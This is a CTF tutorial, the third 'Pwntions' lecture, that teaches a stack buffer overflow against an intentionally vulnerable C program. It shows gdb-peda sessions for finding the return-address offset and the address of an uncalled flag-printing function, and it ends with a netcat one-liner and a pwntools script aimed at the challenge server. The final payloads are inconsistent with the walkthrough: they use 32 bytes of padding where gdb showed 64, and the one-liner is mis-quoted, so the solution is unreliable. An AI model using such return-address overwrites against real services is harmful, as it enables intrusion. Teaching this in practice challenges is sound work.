

# Brewing of Pwntions: Stack overflow lecture 3

Wizards and witches.... It is time for the third and last lecture about stack 
overflows. Pwnie is always happy to help teach engaged students, but I guess
he is happy that this is the last lecture for him drinking stack overflow
pwntions! Remember that more detailed information about stack overflow and the 
stack and heap may be found in the second introductional lecture.

---

<br>

We are getting used to pwntions now, and we all know it is time to take a look
at some C programming language source code. It is not always provided in pwn 
tasks, but all exams in this pwntions class include source code, and a
binary file. Let's take a look at the following source code:

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void print_secret_message(void)
{
	system("cat flag.txt");
}

void answer_professor(void)
{
	char spell_name[20];

	setvbuf(stdout, NULL, _IONBF, 0);
	printf("Professor maritio_o:\n");
	printf("Does anyone remember the name of the spell we made last lecture?\n");

	read(STDIN_FILENO, spell_name, 64);
}

int main(void)
{
	answer_professor();

	return 0;
}
```

By now you might have noticed, drawing a picture of the stack frame is very 
useful. Maybe you now understand enough about the memory layout and may draw 
them yourself in the future!
  


As in the previous lectures, we want to brew the pwntion so that Pwnie tells us 
his secret message. The secret message is hidden on the server in a file called 
_flag.txt_. This is equal to the previous lecture. However, my great students,
there is one main difference. The part of the source code that prints the flag
is inside a _function_. And did you notice something special in the code? The 
function is never called! It just lies there. An excessive, but powerful, part 
of the program, waiting for someone to do some magic to exploit the fact that 
someone even left it there. It should have been removed before publicly 
published.

These pwntions. They contain lots of strange magical words. Do you remember 
what a _function_ is? We talked about it in the introductional lecture about 
stack overflows. Take a look at the second introductional lecture to read 
more about functions. 

---

<br>

In the last lecture, we looked at overflowing values in a struct to change them
into values we wanted it to contain. We manipulated the program to do something 
else than it was supposed to. We will do a lot of the same in this lecture. 
We overwrite some variables on the stack with values we want to replace
them with, manipulating the program to run the function that prints the flag.
To manipulate the program in such a way, we need to talk about _return 
addresses_. Do you remember what a return address is? Take a look in the 
introductional lecture about stack overflows, and you will get your answers!
As a little recap, the return address of a function is stored on the stack, so 
that the function knows where to return after finishing executing all of its 
code.

If we replace the four bytes containing the return address with another memory 
address, the program will try to execute whatever lies on that memory address.
For instance, if we replace the return address with the return address of the 
`print_secret_message` function, then the program will proceed to that function 
and execute all of the code inside that function. However, if the memory address 
we overwrite with isn't valid, the program will get an error called a 
_segmentation fault_, also called a _seg fault_. 

This time, we must do some investigation before building the input string. 
There are two steps for this investigation:
1. Find the amount of padding before we reach the return address
2. Find the memory address we want the program to run after finishing running 
the code in the _answer_professor_ function.

Solving these two steps:

1. Have you used _gdb_ before? No? Awesome! Then you will learn some incredible magic
today. To make this easier, download [gdb-peda](https://github.com/longld/peda) 
from Github. 

As mentioned, the program gets a segmentation fault if the return address is
invalid. That also means that if we overwrite the return address with `A`s, it 
will segfault. By testing different amounts of padding, and noticing at which
points the program segfaults and not, we may find the exact padding before the 
placement of the new return address. Let's open gdb in the terminal. Having
gdb-peda installed, you will see output like this:
```
$ gdb ./pwn_intro3
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./pwn_intro3...done.
gdb-peda$
```

<details><summary>Nice gdb-peda commands</summary><p>

There are several commands you may use in gdb-peda:
* _r_: runs the binary
	* If wanted, you may run and insert input at the same time using something like
`` $ r <<< `python -c 'print "A" * 60'` ``.
* _b_: inserts breakpoint, which makes the debugger stop at this memory address
if it reaches it. Examples:
	* b \*0x03f8c0b6
	* b main
	* b functionname
	* b *functionname+offset, e.g. b *main+20
* _c_: continue when the debugger stops at breakpoint
* _disas_: disassemble a function. Example:
	* disas main
	* disas functioname

</p></details>

<br>

Now, run the debugger with input, like this:
```
gdb-peda$ r <<< `python -c 'print "A" * 20'`
```

The debugger didn't complain, did it? Mine looks like the following snippet, 
so everything went really nice:
```
gdb-peda$ r <<< `python -c 'print "A" * 20'`
Starting program: /home/maritiren/pwn_intro3 <<< `python -c 'print "A" * 20'`
Professor maritio_o:
Does anyone remember the name of the spell we made last lecture?
[Inferior 1 (process 12852) exited normally]
Warning: not running or target is remote
```

However, we want it to segfault in order for us to get the padding for the 
return address. We try with more input:
```
gdb-peda$ r <<< `python -c 'print "A" * 100'`
```
```
[----------------------------------registers-----------------------------------]
EAX: 0x40 ('@')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd04c ('A' <repeats 64 times>, "\201>\337\367\001")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
0004| 0xffffd074 ('A' <repeats 24 times>, "\201>\337\367\001")
0008| 0xffffd078 ('A' <repeats 20 times>, "\201>\337\367\001")
0012| 0xffffd07c ('A' <repeats 16 times>, "\201>\337\367\001")
0016| 0xffffd080 ('A' <repeats 12 times>, "\201>\337\367\001")
0020| 0xffffd084 ("AAAAAAAA\201>\337\367\001")
0024| 0xffffd088 ("AAAA\201>\337\367\001")
0028| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```

That looks more like it! Notice how the debugger prints the address that it
segfaulted on, right there on the bottom of the snippet. You should be looking
for the two lines `Stopped reason: SIGSEGV` and `0x41414141 in ?? ()`, where
the first tells us it stopped due to a segfault (SIGSEGV), and the last prints
the address making the program overflow. We overwrote the return address on the 
stack with A's, making
the program to try continuing to that address. But _0x41414141_ isn't a valid
memory address! It is just the hexadecimal representation of four A's!

A nice tip is to add four B's at the end of the A's. Then we know the exact 
amount of padding when gdb segfaults having _0x42424242_ as the memory 
address it tried to return to. Then we also know that we may replace the four
bytes for the B's with the four bytes of the replacement return address. 
By trying a little, we finally get the right padding. 
```
gdb-peda$ r <<< `python -c 'print "A" * 64 + "BBBB"'`
```

In which gdb outputs the following:
```
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd05c ('A' <repeats 32 times>, "BBBB\nY\376\367\240\320\377\377")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
0004| 0xffffd084 --> 0xffffd0a0 --> 0x1 
0008| 0xffffd088 --> 0x0 
0012| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd090 --> 0xf7fb3000 --> 0x1d7d6c 
0020| 0xffffd094 --> 0xf7fb3000 --> 0x1d7d6c 
0024| 0xffffd098 --> 0x0 
0028| 0xffffd09c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

2. We are nearly there! We know exactly where to put the memory address we want
the program to continue from after finishing the `answer_professor` function 
code. The only thing we are missing is the memory address itself. This is the 
main reason we use gdb! As we know the function name by looking at the source 
code, finding the memory address is as easy as doing the following in gdb:
```
gdb-peda$ disas print_secret_message
Dump of assembler code for function print_secret_message:
   0x080484b6 <+0>:	push   ebp
   0x080484b7 <+1>:	mov    ebp,esp
   0x080484b9 <+3>:	push   ebx
   0x080484ba <+4>:	sub    esp,0x4
   0x080484bd <+7>:	call   0x8048575 <__x86.get_pc_thunk.ax>
   0x080484c2 <+12>:	add    eax,0x1442
   0x080484c7 <+17>:	sub    esp,0xc
   0x080484ca <+20>:	lea    edx,[eax-0x1304]
   0x080484d0 <+26>:	push   edx
   0x080484d1 <+27>:	mov    ebx,eax
   0x080484d3 <+29>:	call   0x8048360 <system@plt>
   0x080484d8 <+34>:	add    esp,0x10
   0x080484db <+37>:	nop
   0x080484dc <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080484df <+41>:	leave  
   0x080484e0 <+42>:	ret    
End of assembler dump.
gdb-peda$ 
```

We choose the memory address at the top of the function, and the program will
run all the code in the function, and print our precious secret! Another hot
tip is to make a file called _flag.txt_ on your computer when working locally.
If you don't, the program will get an error saying that the file it is trying
to read is missing. It is nice to put in a dummy flag, so that you know it 
works as wanted.

---

If it works locally on your machine, you should be ready for the exam! 
Unbelievable, isn't it? After the three exams for this course, you have 
the foundation to become a Master of Pwntions! The exam is the task 
named `Introduction to Pwntions: Stack overflow pt. 3` in the pwn 
category at the challenges page. As a tip for the exam, you should 
replace the binary file on your machine with the _netcat_ (nc) command,
using the given url and port as parameters. Then you insert the input 
to the server. Poke us on [Discord](https://discord.gg/da4rjQ) in the 
#tghack channel, or come by the TG:Hack area in the Creative zone during 
the lanparty [The Gathering](https://www.gathering.org/tg19) for help!

<details><summary>netcat and python solve script example</summary><p>

There are two common ways to send the solution to the remote server. One
of them is using a one line input as we have done in the previous stack 
overflow tutorial pages, as in the example below.

```
$ python -c 'print "A" * 32 + \xb6\x84\x04\x08' | nc url.tghack.no 1337
```
	
The other way is to build a Python script using pwntools. An example 
solution script is making the following script in the file 
`solve_script.py`:

```python
from pwn import *

# True = local debugging 
# False = sending input to remote server
debug = True

if debug == True:
    r = process("./pwn_intro3")
else:
    r = remote("url.tghack.no", 1337)

r.recvuntil("lecture?\n")

new_return_address = "\xb6\x84\x04\x08" #0x080484b6

r.sendline("A" * 32 + new_return_address)

r.interactive()
```

And you may run the script by writing `python solve_script.py`.

</p></details>

<br>

Go on, build the magical spell to run the unused function in the **pwntion3** task from the challenge page.
You must find the right value in your magical spell buffer, and fetch the flag! It is the 
third task of the exam. 
Good luck, future Master of Pwntions!
